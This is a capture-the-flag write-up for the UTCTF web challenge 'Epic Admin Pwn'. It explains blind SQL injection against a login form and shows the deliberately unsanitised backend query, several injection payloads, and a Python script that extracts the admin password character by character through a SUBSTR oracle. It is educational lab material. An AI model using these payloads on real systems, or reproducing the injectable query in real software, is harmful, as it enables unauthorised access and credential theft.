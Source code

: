 # Epic Admin Pwn
* **Event:** UTCTF
* **Problem Type:** Web
* **Point Value / Difficulty:** easy-medium
* **(Optional) Tools Required / Used:** None required

## Overview

Hi everyone! This problem was written as a fairly easy blind sql injection
problem, a pretty common vulnerability.

## Steps

#### Load up website

It's a simple login page, nothing too special about it. To "reduce attack surface", it's pretty minimalist :).

![Login Page](./images/loginpage.png)


#### Detect SQL Injection

SQL injection is a type of vulnerability where an application doesn't sanitize
input, and user input is directly involved in a SQL query.

In this case, the backend application takes a POST request with some form data
and directly uses it in the SQL query. Because of this, you can break syntax of
the sql query using `'` a single quote and then "inject" whatever you want in
the query.

```
user = request.form['username']
password = request.form['pass']

login_sql = "SELECT * FROM users WHERE username='{}' AND password='{}'".format(user,password)
```

Note, you obviously don't get to see this code on the backend, you have to make some
assumptions :).


In a normal SQL injection vulnerability, there might be some output that you're
able to gather when you enter malicious input like `'`. However, because the
problem is "blind" I intentioally hid database errors. You're still able to
inject code though, and if you enter something like `' OR 1=1 --` in the
username field, you hit a "Welcome admin" page.

![Welcome, admin!](./images/welcome_admin.png)

#### Find username
Now that you've found a way to login, you can use that as a sort of "binary
condition", where login == success, and failure otherwise.

Just with that information you're able to extract a lot out of the database,
like the admin password.

Hopefully, you noticed that the title of the problem was "Epic Admin Pwn", and
so you assumed that the user that you wanted to mess with was named `admin`.

You confirm this is the case by trying `admin'--` in the username column.
Because the query succeeded and you're hit with the "Welcome, admin!" page, you
know that the username is `admin`.

#### Extract Password

The problem description told you that the admin password was the flag. A lot of
people assumed that once you logged in, you were done. Unfortunately, that was
the easier part.

To extract the password, you had to be familiar with the SQL `SUBSTRING` method:

`SUBSTRING(word, index, length)`

SQL provides a way to extract substrings from a given word, where `index` is
1-based, and length is the number of characters you want to grab after the
offset index.

Example: `SUBSTRING('foobar', 4, 2) == 'ba'`

You could use this to extract the first character of the admin password by doing
something like 
`admin' AND SUBSTRING(password, 1, 1) = 'u' --`

If you hit the login page, then you know that the first character of the
password is 'u'.

My solution script below essentially iterates over a subset of possible
character values (i only used alphanumerics) and then tested them against each
character index in the password.

A more elegant solution could use binary search, and exploit the fact that
`SUBSTRING(password, 1, 1) > 'm'` would tell you if the first character is in
the second half of the alphabet. However, I'm lazy.

## Solution Script
```
import requests


password = ""


charlist = 'abcdefghijklmnopqrstuvwxyz1234567890{}'


# localhost cause ran locally to test
url = "http://localhost:5006/"

for index in range(0, 30):
    for char in charlist:
        request_text = f"admin' AND SUBSTR(password, {index}, 1) = '{char}'--"
        data = {"username": request_text, "pass": ""}
        response = requests.post(url, data)
        if response.text.find('Welcome, admin!') != -1:
            password += char
            print(password)
            continue 
```

## Resources

[Portswigger sqli](https://portswigger.net/web-security/sql-injection)
[Portswigger sqli cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

